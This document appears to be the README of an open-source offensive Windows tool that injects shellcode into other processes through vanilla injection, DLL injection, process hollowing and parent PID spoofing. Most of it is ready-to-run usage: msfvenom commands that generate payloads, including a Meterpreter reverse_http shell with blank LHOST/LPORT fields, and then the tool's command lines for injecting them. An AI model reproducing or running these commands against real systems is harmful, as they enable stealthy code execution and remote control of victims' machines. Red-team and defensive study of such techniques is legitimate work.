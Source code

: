 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 3 process injection techniques.

	1) Vanila Process Injection
	2) DLL Injection
	3) Process Hollowing
	4) Parent PID Spoofing

Vanila Process Injection, Process Hollowing and Parent PID Spoofing
Currently the program accepts shellcode in 3 formats 

	1) base64
	2) hex
	3) C

### Command Line Usage

	Generating shellcode in base64 format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" | base64
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:base64 /t:1

	Generating shellcode in hex format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f hex
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:hex /t:1

	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f c
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:c /t:1

	DLL Injection
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f dll > Desktop/calc.dll
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\calc.dll"" /t:2
	
	Process Hollowing
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:""C:\Windows\System32\notepad.exe"" /path:""C:\Users\User\Desktop\shellcode.txt"" /f:c /t:3
	
	Parent PID Spoofing
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b ""\x00"" -f c
	ProcessInjection.exe /ppath:""C:\Windows\System32\notepad.exe"" /path:""C:\Users\User\Desktop\shellcode.txt"" /parentproc:explorer /f:c /t:4


### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)
[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)


### Contribution Credit

[Renos](https://twitter.com/r3n_hat)

Credits also goes to Aaron Bray (https://github.com/ambray) for Process Hollowing code
